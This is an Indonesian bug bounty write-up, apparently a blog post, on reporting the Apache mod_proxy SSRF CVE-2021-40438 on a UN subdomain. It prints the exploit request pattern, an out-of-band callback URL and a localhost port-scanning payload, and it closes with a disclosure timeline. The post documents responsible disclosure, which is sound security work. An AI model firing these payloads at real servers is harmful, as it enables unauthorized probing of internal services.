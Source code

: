 ```yaml
---
layout: post
title: "[Write-Up] CVE-2021-40438 Apache SSRF di Website PBB"
tags: [write-up, CVE-2021-40438, gitlab, ssrf]
---
```


Setelah sekian lama sibuk pada pekerjaan, akhirnya dapat sedikit punya waktu untuk menuliskan sedikit pengalaman dalam mencari _bug_. Kali ini targetnya adalah situs United Nations atau Perserikatan Bangsa-Bangsa (PBB), PBB memiliki program untuk kita dalam membantu mengamankan situs mereka, klausulnya dapat diakses di [UN Cybersecurity](https://unite.un.org/information-security). Sebagaimana kebanyakan program dari pemerintah atau sejenisnya, mereka tidak menawarkan uang sebagai hadiah, namun mereka mengapresiasi dengan cara memasukan nama dan situs/media sosial kita ke [Hall of Fame](https://unite.un.org/content/un-information-security-hall-fame). Lumayan untuk eksposur diri dan situs/media sosial kita, kan?

# Reconnaissance

Selalu, hal pertama yang dilakukan adalah _reconnaissance_, saya melakukannya menggunakan tools [rEngine](https://github.com/yogeshojha/rengine). Tools yang sangat saya rekomendasikan dalam melakukan _bug bounty_. rEngine menggabungkan banyak sekali tools yang memudahkan kita melakukan _reconnaissance_, bahkan dapat mencari kerentanan yang sudah _well known_ seperti CVE. Target kita kali ini adalah un.org beserta seluruh subdomainnya, setelah beberapa jam rEngine melakukan tugasnya, munculah notifikasi bahwa rEngine menemukan kerentanan dengan tingkat _severity_ kritikal pada redacted.un.org. Kerentanan itu adalah CVE-2021-40438 

# Apache <= 2.4.48 - Mod_Proxy SSRF

Kerentanan pada mod_proxy dan memungkinkan kita secara _remote_ dan tidak terautentifikasi untuk memaksa server HTTP untuk meneruskan permintaan ke server, membuat kita memiliki kemampuan untuk melakukan hal berbahaya pada server.

Detail CVE ini dapat dibaca pada situs berikut

- [Building a POC for CVE-2021-40438](https://firzen.de/building-a-poc-for-cve-2021-40438)
- [Apache HTTP Server 2.4 vulnerabilities](https://httpd.apache.org/security/vulnerabilities_24.html)

## Server-side Request Forgery (SSRF)

[Server-side request forgery (SSRF)](https://portswigger.net/web-security/ssrf) merupakan celah pada server yang mengijinkan _attacker_ melakukan HTTP _request_ ke website atau domain lain semaunya. Mudahnya, seorang _attacker_ dapat membuat sebuah server mengakses website atau domain tertentu. Umumnya, server tidak dapat atau tidak boleh melakukan _request_ HTTP tanpa otorisasi. 

# Metodologi

membuktikan kerentanan CVE-2021-40438 cukup mudah, yaitu dengan melakukan request dengan payload berikut
```request
https://vuln-web.com/?unix:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.......AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA|http://your.OOB/
```

```unix:AAAAA...AAA``` di atas sudah saya sunting karena terlalu panjang, payload dapat di _copy_ pada situs yang membahas detail CVE ini di atas. Perhatikan juga bahwa di akhir payload kita sisipkan link OOB (out-of-band) untuk dapat mendeteksi apakah server melakukan yang kita perintahkan, dalam hal ini perintah request.

## Proof of Concept

Saya melakukan request dengan payload yang disebutkan di atas dengan mengganti link OOB menggunakan [interact.sh](https://github.com/projectdiscovery/interactsh).

```request
https://redacted.un.org/?unix:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.......AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA|http://my.interact.sh/
```
![hit-1](/assets/img/posts/cve-2021-40438-apache-ssrf/interactsh-hit.png)

Saya berhasil membuat server mengakses interact.sh. Namun, dengan hanya ini impactnya tidak dapat dikatakan kritikal. Kita harus melakukan eskalasi kerentanan ini. 

Kerentanan SSRF dapat dieskalasi lebih jauh salah satunya dengan memanfaatkan SSRF untuk melakukan local port scanning. Umumnya, local port hanya dapat diakses oleh localhost. Dengan SSRF ini, kita dapat "menyamar" menjadi localhost, sehingga kita dapat akses jauh ke dalam server. 

Jadilah payload kita untuk melakukan local port scanning sebagai berikut

```request
https://redacted.un.org/?unix:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.......AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA|http://localhost:xxxx
```

```xxxx``` merupakan nomor port. Jika kita ingin memeriksa port 80, maka menjadi ```http://localhost:80```. Awalnya saya lakukan manual dengan memasukan port yang sudah dikenal. Namun karena hasilnya tidak memuaskan, maka saya putuskan menggunakan [burpsuite](https://portswigger.net/burp), saya lakukan local port scanning dengan melakukan iterasi request dari port 100-9999 secara otomatis.

Voila! port 9000 terbuka berisi halaman login. 

![login](/assets/img/posts/cve-2021-40438-apache-ssrf/login.png)

Setelah berbagai cara saya lakukan untuk memanfaatkan halaman login tersebut, yang berujung nihil. Saya putuskan melaporkan temuan ini dengan hasil setidaknya dapat mengekspos bahwa pada port 9000 di subdomain tersebut terdapat halaman login. 

## Timeline

- 2 Desember 2021 - Laporan dikirim
- 2 Desember 2021 - Laporan diterima dan sedang divalidasi
- 10 Januari 2022 - Temuan valid, nama saya dikukuhkan di Hall of Fame UN.


# Lesson learned

SSRF merupakan kerentanan yang memiliki rentang _severity_ dari _low_ sampai _high_, tergantung pada dampak yang dapat kita manfaatkan. Jika kita menemukan SSRF, analisa kembali apakah kerentanan ini dapat kita eskalasi lebih jauh dan destruktif. 

## Terima kasih

Semua pengalaman saya di atas tidak akan terjadi tanpa-Nya. Segala puja dan puji hanya untuk-Nya. Tidak lupa juga untuk teman sekaligus mentor saya selama ini. Terakhir terima kasih kepada tim IT United Nations yang sangat profesional.

